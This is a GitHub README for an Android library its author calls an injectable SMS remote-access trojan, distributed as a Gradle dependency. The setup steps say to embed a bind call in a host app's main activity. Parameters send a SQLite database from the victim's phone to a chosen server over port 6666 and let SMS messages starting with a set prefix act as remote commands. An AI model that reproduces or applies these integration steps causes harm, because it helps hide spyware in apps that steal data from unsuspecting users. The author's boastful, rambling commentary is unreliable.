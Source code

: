 # LOFL BOT
### A 3-year-old injectable SMS RAT. No backend. Therefore, the spyware remote commands won't work. I learned Android pentesting with library. I'm really embarrassed of the code. I removed this after a Nigerian NSA officer starred and followed me. This was my first RAT. Iwanteed to leave it to my child but it's for my father.

### Guess what all you social elitists, hackers, developers, engineers, crackers, terrorists, and federal agents. I've managed to hack the Android SMS module! By doing so, I've extended it's functionality to allow for SMS messages to only travel through the notification drawer without persistence. I was planning on adding media functionality as well. However , my life had to go on.

There is a self-destructible SMS based notification messenger app. Like snapchat in your drawer. It's hidden in a git branch.
```gradle
implementation 'com.github.evilthreads669966:lofl:1.0'
```


 
 1. Put the following line of code in oncreate of your mainactivity class
 
 LoflActivity.bind(this,"10.0.2.2", "123", this.getClass().getName());
 
 the first parameter is the server address which is responsible for receiving a sqlite database file from the users phone.
 
 the second parameter is what you will put at the start of your sms commands to tell the app that 'this is a command'
 
 the third paremeter is to let lofl know what your launch activity is
 
 the database is sent over port 6666
